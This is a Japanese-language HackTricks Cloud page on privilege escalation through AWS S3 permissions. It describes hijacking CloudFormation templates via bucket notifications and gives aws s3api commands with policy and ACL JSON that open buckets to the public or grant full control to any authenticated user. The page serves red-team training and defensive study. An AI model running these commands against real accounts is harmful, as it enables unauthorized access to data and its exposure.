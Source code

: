 # AWS - S3 Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

興味深いバケットに対してこれらの権限を持つ攻撃者は、リソースをハイジャックし、権限を昇格させることができるかもしれません。

例えば、"cf-templates-nohnwfax6a6i-us-east-1"という名前のcloudformationバケットに対してこれらの**権限を持つ攻撃者**は、デプロイメントをハイジャックすることができます。アクセスは以下のポリシーで付与できます:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
そして、ハイジャックが可能なのは、**テンプレートがバケットにアップロードされる瞬間から**、**テンプレートがデプロイされる瞬間までの小さな時間ウィンドウ**があるからです。攻撃者は、自分のアカウントに**lambda function**を作成し、**バケット通知が送信されたときにトリガーされる**ようにし、**そのバケットの内容をハイジャック**することができます。

![](<../../../.gitbook/assets/image (174).png>)

Pacuモジュール[`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection)を使用して、この攻撃を自動化できます。\
詳細については、元の研究を確認してください: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

これらは、**S3にオブジェクトを取得およびアップロードするための権限**です。AWS内（およびその外）でいくつかのサービスが、**設定ファイル**を保存するためにS3ストレージを使用しています。\
それらに**読み取りアクセス**を持つ攻撃者は、**機密情報**を見つける可能性があります。\
それらに**書き込みアクセス**を持つ攻撃者は、**データを変更してサービスを悪用し、特権を昇格させようとする**ことができます。\
以下はそのいくつかの例です：

* EC2インスタンスが**ユーザーデータをS3バケットに保存している**場合、攻撃者はそれを変更して**EC2インスタンス内で任意のコードを実行**することができます。

### `s3:PutBucketPolicy`

攻撃者は、**同じアカウントからでなければならず**、そうでない場合は`The specified method is not allowed will trigger`というエラーが発生します。この権限を持つことで、攻撃者はバケットに対して自分自身により多くの権限を付与し、読み取り、書き込み、変更、削除、バケットを公開することができるようになります。
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

攻撃者はこれらの権限を悪用して、特定のバケットに対して**より多くのアクセスを付与する**ことができます。\
攻撃者は同じアカウントからである必要はないことに注意してください。さらに、書き込みアクセス
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

攻撃者は、これらの権限を悪用して、バケット内の特定のオブジェクトに対するアクセスを増やすことができます。
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

これらの権限を持つ攻撃者は、特定のオブジェクトバージョンにAclを設定できると予想されます。
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
